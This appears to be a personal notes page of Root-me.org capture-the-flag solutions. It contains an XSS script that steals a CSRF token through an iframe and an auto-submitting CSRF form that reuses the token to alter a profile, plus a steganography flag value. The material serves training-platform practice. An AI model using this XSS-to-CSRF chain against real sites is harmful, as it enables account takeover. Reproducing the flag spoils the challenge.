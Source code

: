 ```yaml
---
description: 'Goal is simple : Solve all the challs.'
---
```


# Root-me.org

I decided to start getting habit of taking note after this tragedy happens \(Thanks @reznok!!!!\)

Again, this is a note so that incase root-me be fucked up again, i can easily got all my flag and solution back, **THIS IS NOT A WRITE UP**.

![sad.png](.gitbook/assets/image%20%284%29.png)

## Web - Client

###  CSRF - token bypass

 First, we must steal the token by using XSS

{% code-tabs %}
{% code-tabs-item title="steal\_token.js" %}
```javascript
<iframe id="iframe" src="/web-client/ch23/?action=profile" onload="read()"></iframe>
<script>
function read()
{
 document.location = document.getElementById("iframe").contentDocument.forms[0].token.value;
}
</script>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Second, we create crsf form that get token and submit request

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>
function get(name){
   if(name=(new RegExp('[?&]'+encodeURIComponent(name)+'=([^&]*)')).exec(location.search))
      document.getElementById("token").value = decodeURIComponent(name[1]);
}
</script>

    <form id="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="tuanlinh1" />
      <input type="hidden" name="status" value="on" />
      <input id="token" name="token" value="" />
      <input type="submit" value="Submit request" />
      <script>get('token')</script>
      <script>document.getElementById("csrf").submit()</script>
    </form>

  </body>
</html>

```

![pow](.gitbook/assets/image%20%2876%29.png)

## Steganography

### Some Noise

Reverse it + Slow it down using Audacity

{% file src=".gitbook/assets/out\_flag.mp3" %}

{% code-tabs %}
{% code-tabs-item title="flag" %}
```text
3b27641fc5h0
```
{% endcode-tabs-item %}
{% endcode-tabs %}

